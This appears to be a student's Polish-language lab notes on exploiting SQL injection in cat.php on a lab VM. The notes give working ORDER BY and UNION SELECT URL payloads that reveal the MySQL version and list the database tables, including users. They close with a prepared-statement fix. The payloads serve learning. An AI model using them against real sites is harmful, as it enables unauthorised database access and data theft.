



TODO: sprawdzic ile kolumn jest

komendy:

```
http://192.168.56.6/cat.php?id=1 order by 1
http://192.168.56.6/cat.php?id=1 order by 2
http://192.168.56.6/cat.php?id=1 order by 3
http://192.168.56.6/cat.php?id=1 order by 4
```

```
http://192.168.56.6/cat.php?id=1 order by 5
```



dopiro przy order by 5 wyskakuje bląd, zatem kolumn jest 4
```
http://vulnerable/cat.php?id=1%20dowolny%20string
```

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'dowolny string' at line 1
```

Błąd SQL przy dodaniu dowolnego stringu po id pokazuje, że parametr jest wstrzykiwany bez właściwej sanitizacji — aplikacja buduje zapytanie SQL łącząc stringi bez cytowania/ekscapowania.

Wiemy ze jest mysql

```
http://vulnerable/cat.php?id=1%20union%20select%201,%20@@version,%203,%204
```

dostajemy

```
5.1.63-0+squeeze1
```

Wyciągnięcie wartości @@version potwierdza MySQL i wersję 5.1.63-0+squeeze1 (ograniczenia i dostępne funkcje zgodne z MySQL 5.1).

## undefined index

```
http://vulnerable/cat.php?dowolny%20string%20id=1
```



"undefined index" po zmianie query string wskazuje, że aplikacja odczytuje konkretne klucze z tablicy GET i nie obsługuje nieoczekiwanych parametrów — to dodatkowy symptom niezwalidowanego wejścia.

## database

```
http://vulnerable/cat.php?id=1%20union%20select%201,%20table_name,%203,%204%20from%20information_schema.tables
```



```
CHARACTER_SETS
COLLATIONS
COLLATION_CHARACTER_SET_APPLICABILITY
COLUMNS
COLUMN_PRIVILEGES
ENGINES
EVENTS
FILES
GLOBAL_STATUS
GLOBAL_VARIABLES
KEY_COLUMN_USAGE
PARTITIONS
PLUGINS
PROCESSLIST
PROFILING
REFERENTIAL_CONSTRAINTS
ROUTINES
SCHEMATA
SCHEMA_PRIVILEGES
SESSION_STATUS
SESSION_VARIABLES
STATISTICS
TABLES
TABLE_CONSTRAINTS
TABLE_PRIVILEGES
TRIGGERS
USER_PRIVILEGES
VIEWS
categories
pictures
users
```

TODO: Wziac wszystkie wartosci z kazdej z tabel

## mapowanie
Na serwerze wykryto brak mapowania

przyklad jak wyglada
```
query = "SELECT * FROM users WHERE name = ?"
prepare(query)
bind(1, userInput)
execute()
```
ale serwer wykorzystuje:
```
query = "SELECT * FROM users WHERE name = '" + userInput + "';"
```

mozna znalezc w pliku cat.php